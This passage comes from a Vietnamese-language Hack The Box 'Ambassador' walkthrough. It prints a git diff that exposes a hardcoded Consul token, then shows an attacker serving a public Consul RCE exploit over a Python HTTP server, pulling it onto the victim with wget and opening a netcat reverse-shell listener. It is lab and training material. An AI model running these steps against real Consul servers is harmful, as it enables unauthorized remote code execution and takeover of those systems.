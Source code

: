 ```bash
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
developer@ambassador:/opt/my-app$
```

Sử dụng github đã khai thác lỗ hổng của [GatoGamer1155](https://github.com/GatoGamer1155), đường dẫn tham khảo bên dưới :

[https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API](https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API)

Thử git clone thư mục về, tạo một http server bằng python để vận chuyển tập [exploit.py](http://exploit.py) đến máy nạn nhân,

```bash
┌──(kali㉿kali)-[~/Desktop/hackthebox/Ambassador /Hashicorp-Consul-RCE-via-API]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.183 - - [15/Jan/2023 01:43:34] "GET /exploit.py HTTP/1.1" 200 -
```

Tại máy nạn nhân, dùng wget để tải tập tin [exploit.py](http://exploit.py) về máy và thực thi để tiến hành tạo reverse-shell, trước khi bắt đầu thì nên mở netcat trước để bắt reverse-shell

```bash
┌──(kali㉿kali)-[~/Desktop/hackthebox/Ambassador ]
└─$ nc -lvnp 4444   
listening on [any] 4444 ...
```

```bash
developer@ambassador:/opt/my-app$ cd /tmp
developer@ambassador:/tmp$ wget http://10.10.14.29:8000/exploit.py
--2023-01-15 06:43:34--  http://10.10.14.29:8000/exploit.py
Connecting to 10.10.14.29:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1409 (1.4K) [text/x-python]
Saving to: ‘exploit.py.1’

exploit.py.1                 100%[==============================================>]   1.38K  --.-KB/s    in 0s      

2023-01-15 06:43:35 (106 MB/s) - ‘exploit.py.1’ saved [1409/1409]

developer@ambassador:/tmp$ ls
exploit.py
exploit.py.1
snap.lxd
systemd-private-88803c4202ff4c3682654fe1e433965d-apache2.service-QoqsRe
systemd-private-88803c4202ff4c3682654fe1e433965d-grafana-server.service-4nETTf
systemd-private-88803c4202ff4c3682654fe1e433965d-ModemManager.service-TBLPqg
systemd-private-88803c4202ff4c3682654fe1e433965d-systemd-logind.service-AXgQRg
systemd-private-88803c4202ff4c3682654fe1e433965d-systemd-resolved.service-CVQycg
systemd-private-88803c4202ff4c3682654fe1e433965d-systemd-timesyncd.service-heUOyf
vmware-root_764-2999067644
developer@ambassador:/tmp$
```
